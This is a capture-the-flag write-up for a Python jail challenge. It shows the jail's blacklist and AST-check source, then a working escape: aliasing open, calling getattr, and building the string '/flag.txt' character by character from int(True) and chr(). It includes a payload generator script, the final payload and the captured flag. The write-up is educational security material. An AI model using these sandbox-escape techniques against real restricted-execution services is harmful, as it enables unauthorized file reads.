

# PyJail

Although this problem has been solved by [my teammate](https://github.com/daffainfo/ctf-writeup/blob/main/1337UP%20LIVE%20CTF/PyJail/README.md) first, I would like to create this writeup anyway due to seemingly unorthodox solution.

## Problem
Can you break out of this python jail? 🐍

P.S. flag is at /flag.txt

Author: 0xM4hm0ud

jail.ctf.intigriti.io 1337


## Solution
### Source Code Analysis
Given the source code of the service :
```py
import ast
import unicodedata

blacklist = "0123456789[]\"\'._"
check = lambda x: any(w in blacklist for w in x)

def normalize_code(code):
    return unicodedata.normalize('NFKC', code)

def execute_code(code):
    try:
        normalized_code = normalize_code(code)
        parsed = ast.parse(code)
        for node in ast.walk(parsed):
            if isinstance(node, ast.Call):
                if isinstance(node.func, ast.Name):
                    if node.func.id in ("os","system","eval","exec","input","open"):
                        return "Access denied!"
            elif isinstance(node, ast.Import):
                return "No imports for you!"
        if check(code):
            return "Hey, no hacking!"
        else:
            return exec(normalized_code, {}, {})
    except Exception as e:
        return str(e)

if __name__ == "__main__":
    while True:
        user_code = input(">> ")
        if user_code.lower() == 'quit':
            break
        result = execute_code(user_code)
        print("Result:", result)
``` 

Based on the source code, we can understand some rules of this service :
1. No number, quotes (both single and double), dots, brackets, and underscores allowed
2. No module importing
3. No function calling that has the ID "os", "system", "eval", "exec", "input", and "open" (Function ID determined by `ast` module) 
4. Input is executed via `exec` with empty environment
5. Before input is processed, inputs are being normalized first (so no fancy characters allowed)

### Restriction Bypasses
First, given the jail used `exec`, we could execute more than one command using semicolon. Hence, this code is valid and executable fully in `exec` command.
```py
x = 1; x += 1; print(x)
```

Next, we found out that assigning a restricted function to a variable (remember, everything is an object in Python) isn't being detected as function calling, and calling that function also isn't returning the `Access Denied!` error, indicating that the function ID detection in (3) could be bypassed with :
```py
x = open; x("/flag.txt").read()
```

However, we can't still execute the `read()` due to restriction in dot character usage. However, `getattr` comes in handy to get the properties of an object (in this case the `read` function), and execute it.
```py
x = open; getattr(x("/flag.txt"), "read")()
```

### No String... No Number...
This is almost done, except of two small annoying restrictions; no quotes to form a string, and no numbers to build the string with `chr()` for example. However, we notice this behavior on Python :
```py
int(True) # returns 1
int(False) # returns 0
```

We can see that it's possible to create a number using `int()` function to a boolean value. After that, basically we could create every possible number from 0 - 9.
```py
nol = int(False) 			# 0
satu = int(True) 			# 1
dua = satu + satu			# 2
tiga = satu + dua			# 3
empat = satu + tiga			# 4
lima = satu + empat			# 5
enam = satu + lima			# 6
tujuh = satu + enam			# 7
delapan = satu + tujuh		# 8
sembilan = satu + delapan		# 9
```

Flatten them onto one line with semicolons :
```py
nol=int(False);satu=int(True);dua=satu+satu;tiga=satu+dua;empat=satu+tiga;lima=satu+empat;enam=satu+lima;tujuh=satu+enam;delapan=satu+tujuh;sembilan=satu+delapan;
```

After this, we could just add the numbers away to form a number, and then create a character (and eventually a string) with `chr()`! However, instead of adding it one by one, we combine the number as strings to be concatenated, and then convert it to number again and finally hit it with `chr()`. 
```py
str(sembilan) + str(tujuh)
# '97'

int(str(sembilan) + str(tujuh))
# 97

chr(int(str(sembilan) + str(tujuh)))
# 'a'
```

Since creating the payload to return a string character-by-character could be quite tiring, we created the script to automate the process.
```py
table = {
	"0": "nol",
	"1": "satu",
	"2": "dua",
	"3": "tiga",
	"4": "empat",
	"5": "lima",
	"6": "enam",
	"7": "tujuh",
	"8": "delapan",
	"9": "sembilan",
}

def generate(string):
	res = ""
	rest = []
	for s in string:
		s = str(ord(s))
		tmp = []
		for x in s:
			tmp.append(table[x])
		rest.append("+".join([f"str({_})" for _ in tmp]))
	res = ("+".join([f"chr(int({_}))" for _ in rest]))
	return res

print(f"nol=int(False);satu=int(True);dua=satu+satu;tiga=satu+dua;empat=satu+tiga;lima=satu+empat;enam=satu+lima;tujuh=satu+enam;delapan=satu+tujuh;sembilan=satu+delapan;x=open; print(getattr(x({generate('/flag.txt')}), {generate('read')})())")
```

Running the script, we got :
```py
nol=int(False);satu=int(True);dua=satu+satu;tiga=satu+dua;empat=satu+tiga;lima=satu+empat;enam=satu+lima;tujuh=satu+enam;delapan=satu+tujuh;sembilan=satu+delapan;x=open; print(getattr(x(chr(int(str(empat)+str(tujuh)))+chr(int(str(satu)+str(nol)+str(dua)))+chr(int(str(satu)+str(nol)+str(delapan)))+chr(int(str(sembilan)+str(tujuh)))+chr(int(str(satu)+str(nol)+str(tiga)))+chr(int(str(empat)+str(enam)))+chr(int(str(satu)+str(satu)+str(enam)))+chr(int(str(satu)+str(dua)+str(nol)))+chr(int(str(satu)+str(satu)+str(enam)))), chr(int(str(satu)+str(satu)+str(empat)))+chr(int(str(satu)+str(nol)+str(satu)))+chr(int(str(sembilan)+str(tujuh)))+chr(int(str(satu)+str(nol)+str(nol))))())
```

Copying to the jail terminal and we got the flag.


<!-- this problem could be solved simply by breakpoint(), dumb me but ok i guess -->

### Flag
`INTIGRITI{Br4ak_br4ak_Br34kp01nt_ftw}` 